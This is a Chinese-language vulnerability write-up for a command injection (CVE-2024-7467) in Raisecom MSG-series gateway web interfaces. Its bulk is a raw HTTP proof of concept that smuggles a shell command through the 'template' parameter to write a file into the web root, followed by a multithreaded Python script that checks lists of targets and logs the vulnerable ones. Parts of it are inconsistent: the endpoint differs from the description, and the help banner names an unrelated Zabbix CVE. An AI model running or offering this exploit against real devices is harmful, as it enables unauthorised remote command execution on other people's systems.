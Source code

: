 # 漏洞描述
<font style="color:rgb(52, 58, 64);">在 Raisecom MSG1200、MSG2100E、MSG2200 和 MSG2300 3.90 中发现漏洞，并被归类为严重漏洞。受此问题影响的是组件 Web 界面文件 /vpn/list_ip_network.php 的函数 sslvpn_config_mod。参数 template/stylenum 的操纵会导致操作系统命令注入。攻击可能远程发起。该漏洞已向公众披露，可能会被利用。此漏洞的标识符为 VDB-273560。注意：供应商已就此披露与供应商联系，但供应商未做出任何回应。</font>

# <font style="color:rgb(52, 58, 64);">公布时间</font>
<font style="color:rgb(33, 37, 41);">2024-08-05</font>

# <font style="color:rgb(33, 37, 41);">来源</font>
[https://avd.aliyun.com/detail?id=AVD-2024-7467&timestamp__1384=n4%2BxRD0GG%3DiteBK0QYDs9AW9DBDfExxGItU34x](https://avd.aliyun.com/detail?id=AVD-2024-7467&timestamp__1384=n4%2BxRD0GG%3DiteBK0QYDs9AW9DBDfExxGItU34x)

# 漏洞复现
poc

echo写入123123到/tmp/123.php中

```http
POST /vpn/list_service_manage.php?template=%60echo+-e+%27123123%27%3E%2Fwww%2Ftmp%2F123.php%60 HTTP/1.1
Host: 
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

Nradius_submit=true
```

访问

```http
GET /tmp/123.php HTTP/1.1
Host: 
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36


```

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib.parse

# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间
max_retries = 3  # 最大重试次数

def verify(url,proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    result={}
    retries = 0
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36'
    }
    data = """Nradius_submit=true"""

    vulnurl = url + "/vpn/list_service_manage.php?template=%60echo+-e+%27123123%27%3E%2Fwww%2Ftmp%2F123.php%60"
    okurl = url + "/tmp/123.php"
    while retries < max_retries:
        try:
            # 发送 POST 请求
            r = requests.post(vulnurl, headers=headers, data=data, verify=False, timeout=timeout)
            if r.status_code == 200:
                if '123123' in requests.get(okurl, headers=headers).text:
                    print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                    with open('CVE-2024-7467.txt', 'a') as f:
                        f.write(url + '\n')
                    result['isVul'] = True
                    return result

            print("[-] No vulnerabilities found")
            return result

        except requests.exceptions.RequestException as e:
            retries += 1
            print(e)
            # time.sleep(random.uniform(1, 3))  # 加长重试时间间隔

    print(f"[-] Failed to verify {max_retries} attempts.")
    return result

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("Zabbix SAML SSO认证绕过漏洞（CVE-2022-23131）".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies=proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# 修复建议
<font style="color:rgb(52, 58, 64);">建议更新当前系统或软件至最新版，完成漏洞的修复。</font>

